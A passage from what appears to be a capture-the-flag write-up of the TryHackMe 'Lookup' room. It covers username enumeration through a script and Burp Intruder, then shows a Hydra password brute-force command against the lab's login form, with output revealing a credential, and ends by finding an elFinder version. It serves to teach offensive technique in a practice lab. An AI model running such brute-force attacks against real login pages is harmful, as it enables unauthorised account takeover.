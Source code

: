 
ChatGPT for the win! Note that the usernames file that I’m using is hard-coded into the script, so if you want to use another one, make sure you change the path to the file!

Now we can run the script and see if we can find any additional users besides `admin`

<figure><img src="https://miro.medium.com/v2/resize:fit:413/1*XNDAEEok7jP6ylHpB0g4Tg.png" alt="" height="68" width="330"><figcaption></figcaption></figure>

#### Method 2 : Using Intruder

We can capture POST request in burp suite add payload at place of username and In settings grep - username Then using this we also find same result

<figure><img src="../.gitbook/assets/Valid_username.png" alt=""><figcaption></figcaption></figure>

Then Try bruteforce again on user jose , this time it worked

```bash
                                                                                                                                                               
┌──(kali㉿kali)-[~/Desktop/TryHackMe/Lookup]
└─$ hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong"   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-24 06:10:25
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong
[STATUS] 1115.00 tries/min, 1115 tries in 00:01h, 14343284 to do in 214:24h, 16 active
[80][http-post-form] host: lookup.thm   login: jose   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-24 06:11:53

```

Looks like we have been re-directed to `files.lookup.thm`. Let’s add that to our hosts file and check it out.

We see it is the Version `2.1.47`.

<figure><img src="../.gitbook/assets/elfinder_ver.png" alt=""><figcaption></figcaption></figure>

